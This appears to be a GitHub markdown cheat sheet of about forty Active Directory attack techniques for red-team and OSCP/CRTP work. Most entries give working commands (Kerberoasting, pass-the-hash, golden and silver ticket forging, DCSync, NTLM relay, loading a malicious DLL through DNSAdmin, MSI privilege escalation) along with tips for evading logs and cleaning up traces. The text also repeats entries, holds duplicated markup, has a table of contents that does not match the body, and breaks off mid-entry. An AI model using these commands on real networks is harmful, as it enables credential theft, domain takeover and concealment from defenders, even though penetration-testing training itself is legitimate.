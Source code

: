 # 🛡️ Active Directory Attack Techniques (Red Team Edition)

This document provides a detailed walkthrough of **25 real-world Active Directory attack techniques**, optimized for **CRTP**, **OSCP**, and stealth-focused **Red Team operations**.

---

## ✅ Features

- 🔐 Realistic AD attacks (AS-REP Roasting, Kerberoasting, DCSync, etc.)
- 🧠 Understand how each technique works under the hood
- 🛠 Tools and usage examples
- 🕵️‍♂️ Red Team **stealth recommendations** for quiet execution
- 📥 Downloadable HTML [Interactive Checklist](./CRTP_OSCP_AD_CheckList.html) available

---

## 📑 Table of Contents
- [1. AS-REP Roasting](#as-rep-roasting)
- [2. Kerberoasting](#kerberoasting)
- [3. Pass-the-Hash (PtH)](#pass-the-hash-%28pth%29)
- [4. Pass-the-Ticket (PtT)](#pass-the-ticket-%28ptt%29)
- [5. DCSync Attack](#dcsync-attack)
- [6. Unconstrained Delegation](#unconstrained-delegation)
- [7. Constrained Delegation](#constrained-delegation)
- [8. Resource-Based Constrained Delegation (RBCD)](#resource-based-constrained-delegation-%28rbcd%29)
- [9. Silver Ticket](#silver-ticket)
- [10. Golden Ticket](#golden-ticket)
- [11. NTDS.dit Dump](#ntdsdit-dump)
- [12. GPP Passwords](#gpp-passwords)
- [13. LAPS Dumping](#laps-dumping)
- [14. AdminSDHolder Abuse](#adminsdholder-abuse)
- [15. ACL Abuse](#acl-abuse)
- [16. Printer Spooler Bug](#printer-spooler-bug)
- [17. Shadow Credentials](#shadow-credentials)
- [18. Certificate Template Escalation (ESC1)](#certificate-template-escalation-%28esc1%29)
- [19. Service Unquoted Path Abuse](#service-unquoted-path-abuse)
- [20. RDP Hijack](#rdp-hijack)
- [21. SAM & SYSTEM Hive Dump](#sam-%26-system-hive-dump)
- [22. LSA Secrets Dump](#lsa-secrets-dump)
- [23. RID Cycling](#rid-cycling)
- [24. Token Impersonation](#token-impersonation)
- [25. WMI Lateral Movement](#wmi-lateral-movement)
- [26. ADCS ESC1: Misconfigured Certificate Template](#adcs-esc1%3A-misconfigured-certificate-template)
- [27. ADCS ESC8: NTLM Relay to Web Enrollment](#adcs-esc8%3A-ntlm-relay-to-web-enrollment)
- [28. PetitPotam + ADCS (EFSRPC Coercion)](#petitpotam-%2B-adcs-%28efsrpc-coercion%29)
- [29. AdminSDHolder Persistence](#adminsdholder-persistence)
- [30. SID Filtering Bypass](#sid-filtering-bypass)
- [31. LDAP ACL Enumeration & Abuse](#ldap-acl-enumeration-%26-abuse)
- [32. Printer Bug (MS-RPRN Coercion)](#printer-bug-%28ms-rprn-coercion%29)
- [33. Unusual SPN Registration for Lateral Movement](#unusual-spn-registration-for-lateral-movement)
- [34. ESC2: Template with Weak ACL](#esc2%3A-template-with-weak-acl)
- [35. ESC3: Enrollable by Low-Priv Group](#esc3%3A-enrollable-by-low-priv-group)
- [36. ESC4: Manager Approval Misuse](#esc4%3A-manager-approval-misuse)
- [37. ESC5: Enroll as Machine Template](#esc5%3A-enroll-as-machine-template)
- [38. ESC6: Authenticated Users Can Enroll](#esc6%3A-authenticated-users-can-enroll)
- [39. ESC7: Vulnerable Unused Template](#esc7%3A-vulnerable-unused-template)
- [40. DCSync via GenericAll / Replication Rights](#dcsync-via-genericall--replication-rights)
- [41. Abusing GenericWrite on User Object](#abusing-genericwrite-on-user-object)
- [42. Overpass-the-Hash (Pass-the-Key)](#overpass-the-hash-%28pass-the-key%29)
- [43. RBCD via AddAllowedToAct (ACL Abuse)](#rbcd-via-addallowedtoact-%28acl-abuse%29)
- [44. Abusing Resource-Based Constrained Delegation (No Pre-auth)](#abusing-resource-based-constrained-delegation-%28no-pre-auth%29)
- [45. DCShadow Attack](#dcshadow-attack)
- [46. Golden Ticket Attack](#golden-ticket-attack)
- [47. Skeleton Key Attack](#skeleton-key-attack)
- [48. SIDHistory Injection](#sidhistory-injection)
- [49. AdminSDHolder Abuse](#adminsdholder-abuse)
- [50. Unconstrained Delegation Abuse](#unconstrained-delegation-abuse)
- [51. Kerberoasting with AES Keys](#kerberoasting-with-aes-keys)
- [52. Printer Bug + RBCD](#printer-bug-%2B-rbcd)
- [53. Kerberos SID Filtering Bypass](#kerberos-sid-filtering-bypass)
- [54. AS-REP Roasting (AES Variant)](#as-rep-roasting-%28aes-variant%29)
- [55. DNSAdmin to DC Compromise](#dnsadmin-to-dc-compromise)
- [56. Abusing ACL on GPO](#abusing-acl-on-gpo)
- [57. Shadow Credentials (Key Credential Link Attack)](#shadow-credentials-%28key-credential-link-attack%29)
- [58. Exchange PrivEsc via WriteDacl](#exchange-privesc-via-writedacl)
- [59. ReadGMSAPassword for Privilege Escalation](#readgmsapassword-for-privilege-escalation)
- [60. Kerberos Delegation Loop](#kerberos-delegation-loop)
- [61. Abuse Service Principal Name (SPN) via Resource-based Constrained Delegation](#abuse-service-principal-name-%28spn%29-via-resource-based-constrained-delegation)
- [62. Malicious GPO Deployment](#malicious-gpo-deployment)
- [63. Kerberos Constrained Delegation (KCD) Abuse](#kerberos-constrained-delegation-%28kcd%29-abuse)
- [64. Unquoted Service Path Privilege Escalation](#unquoted-service-path-privilege-escalation)

---



## 📋 Attack Descriptions


  <a name="as-rep-roasting"></a>
<details>
  <summary><strong>1. AS-REP Roasting</strong></summary>

- **Purpose**: Offline cracking of user password hash  
- **Functionality**: Kerberos allows unauthenticated ticket requests for users with DONT_REQ_PREAUTH  
- **Why It's Vulnerable**: No pre-auth required, so TGT encrypted with weak password hash can be cracked  
- **How to Test**: Use `GetNPUsers.py` or `Rubeus` to extract AS-REP hashes  
```bash
# Using Impacket
GetNPUsers.py -dc-ip 192.168.1.10 domain.local/ -usersfile users.txt

# Using Rubeus
Rubeus.exe asreproast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Use known usernames only; avoid brute-forcing; low log footprint  
</details>

<a name="kerberoasting"></a>
<details>
  <a name="kerberoasting"></a>
<details>
  <summary><strong>2. Kerberoasting</strong></summary>

- **Purpose**: Offline password cracking of service accounts  
- **Functionality**: Any domain user can request service tickets for SPNs  
- **Why It's Vulnerable**: Tickets are encrypted with service account NTLM hash  
- **How to Test**: Extract SPN tickets using `GetUserSPNs.py` or `Rubeus`  
```bash
# Using Impacket
GetUserSPNs.py -request -dc-ip 192.168.1.10 domain.local/user:password

# Using Rubeus
Rubeus.exe kerberoast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Limit SPN requests; monitor for Event ID 4769  
</details>

<a name="pass-the-hash"></a>
<details>
  <a name="pass-the-hash-pth"></a>
<details>
  <summary><strong>3. Pass-the-Hash (PtH)</strong></summary>

- **Purpose**: Authenticate without knowing plaintext password  
- **Functionality**: Windows allows authentication using NTLM hash  
- **Why It's Vulnerable**: Captured hashes can be reused for lateral movement  
- **How to Test**: Use tools to authenticate with just the hash  
```bash
# SMB via wmiexec
wmiexec.py domain.local/user@192.168.1.20 -hashes <NTLM>:<NTLM>

# WinRM
evil-winrm -i 192.168.1.20 -u user -H <NTLM>
```
- **Tools**: Mimikatz, Impacket, Evil-WinRM  
- **Stealth Tips**: Use valid hashes only; avoid brute-force; monitor 4624 events  
</details>

<a name="pass-the-ticket"></a>
<details>
  <a name="pass-the-ticket-ptt"></a>
<details>
  <summary><strong>4. Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Authenticate using forged or stolen Kerberos tickets  
- **Functionality**: Windows lets users inject TGT/TGS tickets into session  
- **Why It's Vulnerable**: Kerberos tickets can be reused or forged  
- **How to Test**: Inject ticket using `Rubeus` or `Mimikatz`  
```bash
# Dump existing tickets
Rubeus.exe dump

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi

# Or with Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Reuse only valid, short-lived tickets; monitor ticket injection  
</details>

<a name="overpass-the-hash"></a>
<details>
  <a name="overpass-the-hash-pass-the-key"></a>
<details>
  <summary><strong>5. Overpass-the-Hash (Pass-the-Key)</strong></summary>

- **Purpose**: Generate TGT using NTLM hash instead of password  
- **Functionality**: NTLM hash used to request TGT via Kerberos  
- **Why It's Vulnerable**: Weak NTLM protection enables fake TGT generation  
- **How to Test**: Use `Rubeus` to request and inject TGT  
```bash
# Request TGT using NTLM
Rubeus.exe asktgt /user:<user> /rc4:<NTLM> /domain:<domain.local>

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi
```
- **Tools**: Rubeus, hashcat  
- **Stealth Tips**: Avoid multiple TGT requests; clean up tickets post-use  
</details>

<a name="golden-ticket"></a>
<details>
  <a name="golden-ticket"></a>
<details>
  <summary><strong>6. Golden Ticket</strong></summary>

- **Purpose**: Forge a TGT for any user with unlimited lifetime  
- **Functionality**: Built using krbtgt NTLM hash  
- **Why It's Vulnerable**: Compromise of `krbtgt` account enables full domain persistence  
- **How to Test**: Use `Mimikatz` to forge and inject a TGT  
```powershell
# Mimikatz command
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /krbtgt:<hash> /ticket:golden.kirbi
kerberos::ptt golden.kirbi
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Use only when krbtgt hash is available; monitor 4768/4769 logs  
</details>

<a name="silver-ticket"></a>
<details>
  <a name="silver-ticket"></a>
<details>
  <summary><strong>7. Silver Ticket</strong></summary>

- **Purpose**: Forge TGS for specific service  
- **Functionality**: Uses service account NTLM hash (not krbtgt)  
- **Why It's Vulnerable**: No need to contact DC when using forged TGS  
- **How to Test**: Forge and inject TGS using Mimikatz or Rubeus  
```powershell
# Forge silver ticket
kerberos::golden /user:svcuser /domain:domain.local /sid:S-1-5-... /rc4:<NTLM> /service:cifs /target:hostname /ticket:silver.kirbi
kerberos::ptt silver.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: No DC contact makes detection harder; cleanup injected TGS  
</details>

<a name="dcsync-attack"></a>
<details>
  <a name="dcsync-attack"></a>
<details>
  <summary><strong>8. DCSync Attack</strong></summary>

- **Purpose**: Extract password hashes directly from DC  
- **Functionality**: Abuse `Replicating Directory Changes` rights to mimic a DC  
- **Why It's Vulnerable**: Misconfigured ACLs grant replication rights  
- **How to Test**: Use Mimikatz `lsadump::dcsync`  
```powershell
lsadump::dcsync /domain:domain.local /user:Administrator
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Generates log 4662; use on stealthy admin accounts  
</details>

<a name="dcshadow-attack"></a>
<details>
  <a name="dcshadow-attack"></a>
<details>
  <summary><strong>9. DCShadow Attack</strong></summary>

- **Purpose**: Push malicious changes into AD (e.g., SIDHistory)  
- **Functionality**: Register rogue domain controller and replicate changes  
- **Why It's Vulnerable**: Abuse of replication permissions  
- **How to Test**: Use `mimikatz` DCShadow module  
```powershell
# In mimikatz
lsadump::dcshadow /object:CN=user,CN=Users,DC=domain,DC=local /attribute:Description /value:Hacked
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Hard to detect; monitor for rogue DC registrations  
</details>

<a name="shadow-credentials"></a>
<details>
  <a name="shadow-credentials"></a>
<details>
  <summary><strong>10. Shadow Credentials</strong></summary>

- **Purpose**: Persist access using alternate credentials (KeyCredential)  
- **Functionality**: Add fake key to user object for silent authentication  
- **Why It's Vulnerable**: Misconfigured ACLs allow adding `msDS-KeyCredentialLink`  
- **How to Test**: Use `Whisker` or `pyWhisker`  
```bash
# Using pyWhisker
python3 pywhisker.py --action add --target 'user@domain.local' --sid S-1-5-... --cert-pfx evil.pfx
```
- **Tools**: pyWhisker, Rubeus, adidnsdump  
- **Stealth Tips**: Extremely stealthy; nearly no log footprint  
</details>


<a name="unconstrained-delegation"></a>
<details>
  <a name="unconstrained-delegation"></a>
<details>
  <summary><strong>11. Unconstrained Delegation</strong></summary>

- **Purpose**: Impersonate any user who authenticates to a service  
- **Functionality**: TGTs are stored in memory and can be stolen  
- **Why It's Vulnerable**: Services with unconstrained delegation store user TGTs  
- **How to Test**: Identify systems with unconstrained delegation  
```powershell
# PowerView
Get-DomainComputer -Unconstrained

# Extract TGT from memory using Rubeus
Rubeus.exe dump
```
- **Tools**: PowerView, Rubeus, Mimikatz  
- **Stealth Tips**: Avoid crashing LSASS; use on logged-in targets  
</details>

<a name="constrained-delegation"></a>
<details>
  <a name="constrained-delegation"></a>
<details>
  <summary><strong>12. Constrained Delegation</strong></summary>

- **Purpose**: Impersonate a user to a specific service  
- **Functionality**: Service can request TGS on behalf of user  
- **Why It's Vulnerable**: Misconfigured S4U2Self/S4U2Proxy allows impersonation  
- **How to Test**: Abuse using S4U attack with Rubeus  
```powershell
# S4U attack using Rubeus
Rubeus.exe s4u /user:<user> /rc4:<NTLM> /impersonateuser:Administrator /msdsspn:cifs/dc.domain.local /domain:<domain>
```
- **Tools**: Rubeus  
- **Stealth Tips**: No DC contact if ticket reused; monitor 4769 logs  
</details>

<a name="resource-based-constrained-delegation"></a>
<details>
  <a name="resource-based-constrained-delegation-rbcd"></a>
<details>
  <summary><strong>13. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Impersonate users to target machine or service  
- **Functionality**: Target object controls its own delegation settings  
- **Why It's Vulnerable**: Any user with write access to target can configure delegation  
- **How to Test**: Use `GenericWrite`/`GenericAll` to set msDS-AllowedToActOnBehalfOfOtherIdentity  
```powershell
# Using PowerView
Set-ADComputer -Identity TARGET -PrincipalsAllowedToDelegateToAccount ATTACKER$

# Using Rubeus and S4U
Rubeus.exe s4u ...
```
- **Tools**: PowerView, Rubeus, SharpHound  
- **Stealth Tips**: Clean up delegation entries post-exploitation  
</details>

<a name="printer-bug-coercion"></a>
<details>
  <a name="printer-bug-spoolsample"></a>
<details>
  <summary><strong>14. Printer Bug (SpoolSample)</strong></summary>

- **Purpose**: Coerce authentication from remote machine  
- **Functionality**: Exploit MS-RPRN to trigger SMB authentication  
- **Why It's Vulnerable**: Misuse of Print Spooler to trigger outbound auth  
- **How to Test**: Use `SpoolSample` or `rpcdump`  
```bash
# SpoolSample
SpoolSample.exe <victim-ip> <attacker-ip>
```
- **Tools**: SpoolSample, Inveigh  
- **Stealth Tips**: Use with relaying setup (e.g., ntlmrelayx)  
</details>

<a name="shadow-admins"></a>
<details>
  <a name="shadow-admins"></a>
<details>
  <summary><strong>15. Shadow Admins</strong></summary>

- **Purpose**: Persistence via indirect privilege escalation  
- **Functionality**: Users granted rights over admin accounts  
- **Why It's Vulnerable**: Misconfigured ACLs allow privilege chaining  
- **How to Test**: Identify users/groups with indirect control  
```powershell
# Using PowerView
Invoke-ACLScanner | ? { $_.IdentityReference -like "*admin*" }
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Shadow paths harder to detect than DA membership  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <a name="adminsdholder-abuse"></a>
<details>
  <summary><strong>16. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persistent privilege escalation  
- **Functionality**: Changes to AdminSDHolder propagate to protected accounts  
- **Why It's Vulnerable**: Write access to AdminSDHolder object gives domain rights  
- **How to Test**: Add user to AdminSDHolder's ACL  
```powershell
# Using PowerView
Add-ADPermission -Identity "CN=AdminSDHolder,CN=System,DC=domain,DC=local" -User attacker -ExtendedRights "All"
```
- **Tools**: PowerView, ADSI Edit  
- **Stealth Tips**: Change re-applies every 60 minutes; remove afterward  
</details>

<a name="acl-based-privesc"></a>
<details>
  <a name="acl-based-privesc"></a>
<details>
  <summary><strong>17. ACL-Based PrivEsc</strong></summary>

- **Purpose**: Escalate privileges using misconfigured object permissions  
- **Functionality**: WriteDACL/GenericAll enables adding membership or privileges  
- **Why It's Vulnerable**: Poor delegation of permissions  
- **How to Test**: Identify writeable objects using BloodHound or PowerView  
```powershell
# With PowerView
Invoke-ACLScanner

# Add user to group
Add-ADGroupMember -Identity "Domain Admins" -Members attacker
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Clean audit trails, remove attacker after use  
</details>

<a name="gmsa-abuse"></a>
<details>
  <a name="gmsa-abuse"></a>
<details>
  <summary><strong>18. gMSA Abuse</strong></summary>

- **Purpose**: Abuse Group Managed Service Account to gain lateral access  
- **Functionality**: Passwords for gMSAs are retrievable by authorized systems  
- **Why It's Vulnerable**: Misconfigured read permissions allow extraction  
- **How to Test**: Use Mimikatz or custom tools to extract gMSA password  
```powershell
# Using Mimikatz
lsadump::gmsa
```
- **Tools**: Mimikatz, ADModule  
- **Stealth Tips**: Very stealthy if done from authorized machine  
</details>

<a name="ldap-signing-downgrade"></a>
<details>
  <a name="ldap-signing-downgrade"></a>
<details>
  <summary><strong>19. LDAP Signing Downgrade</strong></summary>

- **Purpose**: Downgrade secure LDAP communication for interception  
- **Functionality**: Disable signing requirements to perform MITM  
- **Why It's Vulnerable**: Default configuration allows unsigned LDAP  
- **How to Test**: Use `ntlmrelayx` with LDAP relaying  
```bash
# Relaying NTLM to LDAP
ntlmrelayx.py -t ldap://dc.domain.local --escalate-user attacker
```
- **Tools**: Impacket, Responder, ntlmrelayx  
- **Stealth Tips**: Combine with coercion attacks (e.g., PetitPotam)  
</details>

<a name="zerologon"></a>
<details>
  <a name="zerologon-cve-2020-1472"></a>
<details>
  <summary><strong>20. Zerologon (CVE-2020-1472)</strong></summary>

- **Purpose**: Full DC compromise via Netlogon flaw  
- **Functionality**: Exploits all-zero challenge to bypass auth  
- **Why It's Vulnerable**: Flawed cryptographic implementation in Netlogon  
- **How to Test**: Use `Zerologon` PoC or `impacket` script  
```bash
# Test
python3 zerologon_tester.py dc.domain.local

# Exploit
python3 zerologon_exploit.py dc.domain.local
```
- **Tools**: Impacket, CVE PoC  
- **Stealth Tips**: Very noisy; avoid unless authorized  
</details>

<a name="dnsadmin-to-dc-compromise"></a>
<details>
  <a name="dnsadmin-to-dc-compromise"></a>
<details>
  <summary><strong>21. DNSAdmin to DC Compromise</strong></summary>

- **Purpose**: Elevate privileges to SYSTEM on a Domain Controller  
- **Functionality**: DNSAdmin can load DLLs through `dnscmd`  
- **Why It's Vulnerable**: DNS server service runs as SYSTEM and loads external DLLs  
- **How to Test**: Load a malicious DLL via `dnscmd`  
```bash
dnscmd <dc> /config /serverlevelplugindll \attacker\share\malicious.dll
# Restart DNS service
sc \<dc> stop dns
sc \<dc> start dns
```
- **Tools**: dnscmd, msfvenom, smbserver.py  
- **Stealth Tips**: Clean up DLL path and logs after use  
</details>

<a name="password-spray"></a>
<details>
  <a name="password-spray"></a>
<details>
  <summary><strong>22. Password Spray</strong></summary>

- **Purpose**: Identify weak passwords across many users  
- **Functionality**: Attempts same password for multiple users to avoid lockout  
- **Why It's Vulnerable**: AD doesn’t detect horizontal brute force effectively  
- **How to Test**: Use CrackMapExec or Hydra  
```bash
crackmapexec smb <target> -u users.txt -p 'Password123'
```
- **Tools**: CrackMapExec, Hydra, Kerbrute  
- **Stealth Tips**: Respect lockout policy; long wait between tries  
</details>

<a name="llmnr-nbt-ns-poisoning"></a>
<details>
  <a name="llmnrnbt-ns-poisoning"></a>
<details>
  <summary><strong>23. LLMNR/NBT-NS Poisoning</strong></summary>

- **Purpose**: Capture NetNTLMv2 hashes from network  
- **Functionality**: Responds to broadcast name resolution requests  
- **Why It's Vulnerable**: LLMNR/NBT-NS enabled by default  
- **How to Test**: Run Responder on local subnet  
```bash
responder -I eth0
```
- **Tools**: Responder, Hashcat  
- **Stealth Tips**: Only use when legitimate traffic exists  
</details>

<a name="golden-ticket"></a>
<details>
  <a name="golden-ticket"></a>
<details>
  <summary><strong>24. Golden Ticket</strong></summary>

- **Purpose**: Create forged TGTs to impersonate any user  
- **Functionality**: TGTs can be forged using KRBTGT hash  
- **Why It's Vulnerable**: Domain compromise gives access to KRBTGT  
- **How to Test**: Extract KRBTGT hash and forge TGT  
```powershell
# Mimikatz
lsadump::lsa /patch
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21... /krbtgt:<hash>
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Set realistic lifetime, timestamps; avoid reuse  
</details>

<a name="silver-ticket"></a>
<details>
  <a name="silver-ticket"></a>
<details>
  <summary><strong>25. Silver Ticket</strong></summary>

- **Purpose**: Access services without contacting DC  
- **Functionality**: TGS can be forged using service account’s NTLM hash  
- **Why It's Vulnerable**: TGS validation does not require DC communication  
- **How to Test**: Use hash to forge TGS with Mimikatz or Rubeus  
```powershell
# Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Avoid Kerberos event logs; direct access to service  
</details>

<a name="privileged-session-hijack"></a>
<details>
  <a name="privileged-session-hijack"></a>
<details>
  <summary><strong>26. Privileged Session Hijack</strong></summary>

- **Purpose**: Steal or reuse high-privilege token/session  
- **Functionality**: Session tokens in memory can be reused  
- **Why It's Vulnerable**: High-privilege sessions often left active  
- **How to Test**: Enumerate and steal token using Mimikatz  
```powershell
# Mimikatz
token::list
token::elevate
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid alerting interactive users  
</details>

<a name="kerberos-unconstrained-delegation-ticket-theft"></a>
<details>
  <a name="kerberos-unconstrained-delegation-ticket-theft"></a>
<details>
  <summary><strong>27. Kerberos Unconstrained Delegation Ticket Theft</strong></summary>

- **Purpose**: Steal TGTs from systems with delegation enabled  
- **Functionality**: Attacker can extract TGT from memory after victim login  
- **Why It's Vulnerable**: Unconstrained delegation caches TGT in memory  
- **How to Test**: Wait for login, extract TGT  
```powershell
# Rubeus
Rubeus.exe dump
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Passive collection; avoid causing logon  
</details>

<a name="kerberos-over-pass-the-ticket"></a>
<details>
  <a name="kerberos-over-pass-the-ticket-ptt"></a>
<details>
  <summary><strong>28. Kerberos Over Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Use forged TGT/TGS to authenticate  
- **Functionality**: Inject Kerberos ticket into current session  
- **Why It's Vulnerable**: No validation of origin of ticket  
- **How to Test**: Inject valid TGT  
```powershell
# Rubeus or Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Use short lifetime; remove ticket after use  
</details>

<a name="kerberos-rc4-ticket-renewal"></a>
<details>
  <a name="kerberos-rc4-ticket-renewal"></a>
<details>
  <summary><strong>29. Kerberos RC4 Ticket Renewal</strong></summary>

- **Purpose**: Extend lifetime of Kerberos tickets  
- **Functionality**: Re-request new ticket using valid one  
- **Why It's Vulnerable**: Reuse of hash for encryption allows forging  
- **How to Test**: Use RC4 key with Rubeus  
```powershell
# Rubeus
Rubeus.exe renew /ticket:<kirbi>
```
- **Tools**: Rubeus  
- **Stealth Tips**: Limit renewals; use realistic renewal times  
</details>

<a name="delegation-chaining"></a>
<details>
  <a name="delegation-chaining"></a>
<details>
  <summary><strong>30. Delegation Chaining</strong></summary>

- **Purpose**: Pivot through multiple delegation relationships  
- **Functionality**: Abuse chained constrained delegation  
- **Why It's Vulnerable**: Hard to audit complex chains  
- **How to Test**: Enumerate delegation paths using BloodHound  
```bash
# BloodHound
Collect data → Analyze delegation edges
```
- **Tools**: BloodHound, Rubeus  
- **Stealth Tips**: Use with known chains only; avoid failed impersonation  
</details>


<a name="kerberos-resource-based-constrained-delegation-rbcd"></a>
<details>
  <a name="resource-based-constrained-delegation-rbcd"></a>
<details>
  <summary><strong>31. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Elevate privileges by controlling another computer’s delegation rights  
- **Functionality**: Modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute  
- **Why It's Vulnerable**: Computers can be delegated rights to impersonate users  
- **How to Test**: Create a computer account, set RBCD on target, and impersonate  
```powershell
# Powermad
New-MachineAccount -MachineAccount "owned$" -Password "Password123!"
Set-ADComputer 'TARGET' -PrincipalsAllowedToDelegateToAccount 'owned$'
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Avoid AD logs; use short-lived account  
</details>

<a name="shadow-credentials"></a>
<details>
  <a name="shadow-credentials"></a>
<details>
  <summary><strong>32. Shadow Credentials</strong></summary>

- **Purpose**: Persist access by planting alternate credentials  
- **Functionality**: Abuse msDS-KeyCredentialLink attribute  
- **Why It's Vulnerable**: Weak ACLs allow editing sensitive attributes  
- **How to Test**: Inject certificate or key credential  
```powershell
# Whisker or pyWhisker
pywhisker add -u targetuser -d domain -k c:\cert.pfx
```
- **Tools**: pyWhisker, Certify  
- **Stealth Tips**: Avoid changing primary credentials; clean up afterward  
</details>

<a name="acl-based-privilege-escalation"></a>
<details>
  <a name="acl-based-privilege-escalation"></a>
<details>
  <summary><strong>33. ACL-Based Privilege Escalation</strong></summary>

- **Purpose**: Abuse weak ACLs to gain privileges  
- **Functionality**: Modify rights on sensitive objects (e.g., user, computer)  
- **Why It's Vulnerable**: Delegation often misconfigured  
- **How to Test**: Enumerate ACLs using BloodHound  
```bash
# SharpHound/BloodHound
Collect ACL data → Analyze Effective Permissions
```
- **Tools**: BloodHound, PowerView, ADACLScanner  
- **Stealth Tips**: Use inherited ACLs stealthily; revert after use  
</details>

<a name="dcsync"></a>
<details>
  <a name="dcsync-attack"></a>
<details>
  <summary><strong>34. DCSync Attack</strong></summary>

- **Purpose**: Dump password hashes for any domain user  
- **Functionality**: Mimics domain controller behavior to replicate secrets  
- **Why It's Vulnerable**: User with Replication rights can pull hashes  
- **How to Test**: Use Mimikatz with DCSync  
```powershell
# Mimikatz
lsadump::dcsync /domain:domain.local /user:krbtgt
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Target only necessary users; avoid dumping all  
</details>

<a name="unquoted-service-path"></a>
<details>
  <a name="unquoted-service-path"></a>
<details>
  <summary><strong>35. Unquoted Service Path</strong></summary>

- **Purpose**: Exploit unquoted service path to execute malicious binary as SYSTEM  
- **Functionality**: Service with unquoted path and spaces can execute attacker binary  
- **Why It's Vulnerable**: OS treats path as space-delimited and searches left-to-right  
- **How to Test**: Place executable in one of the interpreted paths  
```powershell
# Identify service
wmic service get name,pathname,startmode | findstr /i "Auto"
```
- **Tools**: PowerUp, sc.exe  
- **Stealth Tips**: Restart service quietly; clean up dropped binary  
</details>

<a name="alwaysinstall-elevated-misconfiguration"></a>
<details>
  <a name="alwaysinstallelevated-misconfiguration"></a>
<details>
  <summary><strong>36. AlwaysInstallElevated Misconfiguration</strong></summary>

- **Purpose**: Gain SYSTEM privileges via MSI installer  
- **Functionality**: Exploit policy that allows non-admins to run MSIs as SYSTEM  
- **Why It's Vulnerable**: Admins leave AlwaysInstallElevated registry key set  
- **How to Test**: Check registry keys and run malicious MSI  
```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
msfvenom -p windows/exec CMD=calc.exe -f msi > evil.msi
msiexec /quiet /qn /i evil.msi
```
- **Tools**: msfvenom, msiexec  
- **Stealth Tips**: Rename MSI, clean up registry traces  
</details>

<a name="service-permissions-abuse"></a>
<details>
  <a name="service-permissions-abuse"></a>
<details>
  <summary><strong>37. Service Permissions Abuse</strong></summary>

- **Purpose**: Modify service config to execute code as SYSTEM  
- **Functionality**: Misconfigured permissions allow binary path modification  
- **Why It's Vulnerable**: Services run as SYSTEM and permissions often too broad  
- **How to Test**: Use accesschk to find writable services, modify path  
```bash
accesschk.exe -uwcqv "Authenticated Users" * /svc
sc config <service> binpath= "cmd.exe /c calc.exe"
```
- **Tools**: sc.exe, accesschk.exe  
- **Stealth Tips**: Restore original path; clean artifacts  
</details>

<a name="wmi-event-subscription-persistence"></a>
<details>
  <a name="wmi-event-subscription-persistence"></a>
<details>
  <summary><strong>38. WMI Event Subscription Persistence</strong></summary>

- **Purpose**: Maintain persistence through WMI triggers  
- **Functionality**: Subscribes to system events and executes payload  
- **Why It's Vulnerable**: WMI is deeply integrated and hard to audit  
- **How to Test**: Create a permanent event subscription  
```powershell
# PowerShell example
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter ...
```
- **Tools**: PowerShell, WMI Explorer  
- **Stealth Tips**: Name events benignly; delete after use  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <a name="adminsdholder-abuse"></a>
<details>
  <summary><strong>39. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persist elevated privileges via protected groups template  
- **Functionality**: AdminSDHolder replicates ACLs to high-privilege users every 60 min  
- **Why It's Vulnerable**: Modifying AdminSDHolder can give you rights over domain admins  
- **How to Test**: Add self as full control in ACLs of AdminSDHolder  
```powershell
Set-ADACL -Target "CN=AdminSDHolder,CN=System,DC=domain,DC=local" ...
```
- **Tools**: PowerView, ADSIEdit  
- **Stealth Tips**: Remove ACLs after use; high risk  
</details>

<a name="domain-controller-sync-via-rbcd"></a>
<details>
  <a name="domain-controller-sync-via-rbcd"></a>
<details>
  <summary><strong>40. Domain Controller Sync via RBCD</strong></summary>

- **Purpose**: Gain full replication rights and extract hashes  
